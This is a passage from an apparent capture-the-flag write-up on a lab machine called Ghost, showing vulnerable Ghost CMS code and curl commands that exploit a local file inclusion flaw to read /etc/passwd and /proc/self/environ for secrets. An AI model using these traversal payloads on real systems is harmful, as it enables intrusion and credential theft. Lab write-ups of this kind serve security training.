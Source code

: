                             return model;
                        });
                }
            }
        };
        ```

        This code snippet is vulnerable to **Local File Inclusion LFI** because the extra parameter is passed directly into **`fs.existsSync(extra)`** and `fs.readFileSync("/var/lib/ghost/extra/" + extra)`. Since we control `extra`, we may be able to read arbitrary files on the system.

        ```js
        if (extra) {
            const fs = require("fs");
            if (fs.existsSync(extra)) {
                const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
                posts.meta.extra = { [extra]: fileContent };
            }
        }
        ```
        Here is the documentation of Ghost API

        [Ghost Content API Documentation](https://ghost.org/docs/content-api/)

        **Crafting our payload**
        + **Base URL:** https://ghost.htb:8008/ghost/api/content/
        + **Route:** `posts` from the code
        + **Parameter:**  `extra`
        + **Key:** key=a5af628828958c976a3b6cc81a

        ```bash
        curl -s "http://ghost.htb:8008/ghost/api/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a" | jq '.meta.extra'
        ```

        ![](https://cdn-images-1.medium.com/max/1000/1*Lg2lD5sKZj1TWFMpxkhQ_Q.png)

        We now have LFI. At this point, there are many files to explore, such as configuration files, SSH keys, etc. However, the first thing I do when I have LFI is read the `/proc/self/` files to check the current process's running command, environment variables for credentials or secrets.

        ```bash
        curl -s "http://ghost.htb:8008/ghost/api/content/posts/?extra=../../../../proc/self/environ&key=a5af628828958c976a3b6cc81a" | jq '.meta.extra'
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*6wR4YMGT4MgOGDQWBsjpYA.png)

        For more clear version and remove the null value

        ```bash
        curl -s "http://ghost.htb:8008/ghost/api/content/posts/?extra=../../../../proc/self/environ&key=a5af628828958c976a3b6cc81a" | jq -r '.meta.extra."../../../../proc/self/environ" | gsub("\\u0000"; "   ")'
        ```
